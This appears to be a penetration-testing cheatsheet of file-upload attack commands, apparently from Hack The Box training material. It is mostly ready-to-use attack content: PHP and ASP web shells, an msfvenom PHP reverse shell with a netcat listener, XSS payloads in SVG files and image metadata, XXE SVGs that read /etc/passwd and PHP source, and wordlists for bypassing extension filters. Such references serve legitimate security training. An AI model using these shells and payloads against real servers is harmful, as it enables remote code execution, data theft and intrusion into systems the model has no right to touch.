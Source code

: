 # File Upload Attack Commands Cheatsheet

## Web Framework Identification
```bash
# Check for PHP by visiting index page with extension
# Visit: http://SERVER_IP:PORT/index.php

# Use file command to check MIME type
file filename.ext
```

## Creating Basic Test Files
```bash
# Create basic PHP test
echo '<?php echo "Hello HTB";?>' > test.php

# Create simple web shell
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php
```

## Magic Bytes / MIME Type Testing
```bash
# Create text file and check MIME type
echo "this is a text file" > text.jpg
file text.jpg

# Add GIF magic bytes
echo "GIF8" > text.jpg
file text.jpg
```

## Extension Fuzzing
```bash
# Download PHP extensions wordlist
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

# Download content-type wordlist and filter for images
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```

## Character Injection Wordlist Generation
```bash
# Generate filename permutations with special characters
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

## Reverse Shell Generation
```bash
# Generate reverse shell with msfvenom
msfvenom -p php/reverse_php LHOST=YOUR_IP LPORT=YOUR_PORT -f raw > reverse.php

# Start netcat listener
nc -lvnp YOUR_PORT
```

## Metadata Manipulation
```bash
# Add XSS payload to image metadata
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg

# Check metadata
exiftool HTB.jpg
```

## Sample Malicious Files

### Basic PHP Web Shell
```php
<?php system($_REQUEST['cmd']); ?>
```

### XSS SVG
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE SVG (File Read)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

### XXE SVG (PHP Source Code)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

### ASP Web Shell
```asp
<% eval request('cmd') %>
```

## Common Bypass Extensions
- PHP: .php, .php3, .php4, .php5, .php7, .phps, .pht, .phtml, .shtml
- Double extensions: .php.jpg, .php.png, .php.gif
- Case variations: .pHp, .PhP, .PHP

## Special Characters for Injection
- %20 (space)
- %0a (line feed)
- %00 (null byte) - works on PHP < 5.3.4
- %0d0a (CRLF)
- / (forward slash)
- .\\ (backslash)
- . (dot)
- … (ellipsis)
- : (colon) - works on Windows

## Windows Reserved Names
- CON, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9
- LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8, LPT9
- AUX, PRN, NUL
